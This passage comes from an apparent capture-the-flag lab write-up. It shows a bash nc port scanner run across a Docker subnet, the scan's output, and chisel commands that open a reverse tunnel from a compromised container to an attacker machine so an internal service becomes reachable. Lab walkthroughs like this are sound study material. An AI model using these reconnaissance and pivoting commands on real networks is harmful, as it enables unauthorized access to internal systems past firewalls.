 ```shell
#!/bin/bash

NETWORK=$1

for host in $(seq 1 9)
do
	for port in $(seq 1 4000)
	do
		r=$(nc -zv -w 1 $NETWORK.$host $port)
		if [[ $r == *"succeeded"* ]]; then
				echo $r
		fi
	done
done
```

The output:
```
172.17.0.1 (172.17.0.1:22) open
172.17.0.1 (172.17.0.1:80) open
172.17.0.1 (172.17.0.1:3000) open
172.17.0.2 (172.17.0.2:80) open
172.17.0.3 (172.17.0.3:80) open
172.17.0.4 (172.17.0.4:80) open
172.17.0.5 (172.17.0.5:80) open
172.17.0.6 (172.17.0.6:80) open
172.17.0.7 (172.17.0.7:80) open
172.17.0.8 (172.17.0.8:80) open
172.17.0.9 (172.17.0.9:80) open
```

Since `172.17.0.1` is the network gateway and the ports open on it match the ports in the nmap scan we can confirm that it is the host machine.

Port 3000 is running an HTTP server and we can connect to it from the docker container because it is inside the network and not filtered by a firewall.

Now we can port forward/tunnel port 3000 to our machine and access it with the browser.
## Tunneling in
Found tunneling tool [chisel](https://github.com/jpillora/chisel) which allowed me to create a tunnel to `172.17.0.1:3000` with reverse port forwarding.

This was done by:
* Starting a chisel server on attack machine:
```bash
chisel server --reverse --port 9999
```
* Connecting from victim machine
```bash
chisel client 10.10.14.57:9999 R:3000:172.17.0.1:3000
```

And now I could access port 3000 on the box by simply going to `localhost:3000` on my attacker machine!
